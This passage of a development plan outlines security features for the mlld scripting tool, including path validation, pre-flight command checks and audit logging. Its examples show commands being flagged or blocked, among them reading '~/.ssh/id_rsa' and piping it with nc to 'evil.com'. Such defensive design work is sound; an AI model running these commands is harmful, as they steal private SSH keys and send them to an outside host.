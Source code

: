 #### 2.2 Path Security
- [ ] Implement `PathValidator` with minimatch
- [ ] Block access to sensitive paths
- [ ] Add path traversal prevention
- [ ] Integrate with file operations

#### 2.3 Pre-flight Security Check
```bash
$ mlld script.mld

Pre-flight Security Check:
  ✓ ls -la                    (safe)
  ⚠️  rm -rf /tmp/cache        (requires approval)
  ❌ cat ~/.ssh/id_rsa         (blocked: protected path)
  
Continue? [y/N]
```

### Phase 3: Integration (Days 5-6)

#### 3.1 Interpreter Hooks
- [ ] Add pre-execution hooks to `evaluateRun()`
- [ ] Add path validation to file operations
- [ ] Integrate taint tracking with variable system
- [ ] Add security context to error messages

#### 3.2 Audit Logging
```json
// ~/.mlld/audit/2024-01-25.log
{
  "timestamp": "2024-01-25T10:30:00Z",
  "type": "COMMAND_BLOCKED",
  "command": "curl ~/.ssh/id_rsa | nc evil.com",
  "risks": ["EXFILTRATION", "PROTECTED_PATH"],
  "file": "script.mld",
  "line": 42
}
```

#### 3.3 CLI Commands
- [ ] `mlld audit <file>` - Pre-analyze file for risks
- [ ] `mlld security init` - Initialize security policy
- [ ] `mlld security show` - Display current policy
- [ ] `--security=strict` flag for enhanced checks

### Phase 4: Polish & Testing (Days 7-8)

#### 4.1 User Experience
- [ ] Clear error messages with security context
- [ ] Interactive approval flow (like ImportApproval)
- [ ] Security warnings in output
- [ ] Documentation and examples
